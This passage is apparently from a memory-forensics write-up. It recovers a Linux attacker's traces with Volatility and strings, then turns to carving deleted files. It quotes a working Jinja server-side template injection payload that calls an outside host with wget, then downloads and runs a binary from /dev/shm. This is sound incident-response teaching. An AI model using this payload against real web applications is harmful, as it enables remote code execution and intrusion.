 ```text
$ mkdir procs
$ cd procs

$ vol3 -f ../hackypaws.mem linux.proc --dump
```

After that completes, you're going to be left with a ton of files. If you want to dig into this data, likely our `uf` process is in here and with some scripting you could recover that binary fully.

Anyways, we can search for the exploit in memory using this data, and we can try our new IOC! Using strings and grep will help parse the files for anything related to the 137 IP that the malware was interacting with.

```text
$ strings *|grep '137.184.178.106'
```

We see a few entries for the same entry, which is this:

```text
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('wget http://137.184.178.106:8000/uf -O /dev/shm/uf;chmod +x /dev/shm/uf;/dev/shm/uf').read() }}
```

#### Template Injection

That's clearly related to our malicious process, what is it though? To the trained eye, we can discern a few things: it looks python based, and the `{{ }}` chars may indicate a server side template injection (SSTI).

SSTI is a bug class that affects backend applications where templating engines like Jinja, tymeleaf, and others are used. It's less common, but typically results in remote code execution when it happens.

We really need to find where and how this SSTI payload was injected.

### Recovering Deleted Files

Typically, when a payload is sent to a web app that needs to be stored and then processed, it will be in the database.

The attacker deleted the app's database, so we need to get that back to help find where in the app the payload could have been injected.

#### File Parsing

When a file is deleted, typically it's not actually deleted. It's storage on disk is marked as unallocated space, then the OS will overwrite that location at some point in the future.

Using a file recovery tool, we can parse through unallocated space, and then carve out files we're interested in. Parsing and carving is all about file headers, there are no file names preserved when a file is deleted in most file systems.

File headers, also known as magic bytes are pieces of data in the first 16 bytes of the file that identify what kind of file it is, without the use of a file extension. If you've ever used the `file` command, it uses headers.
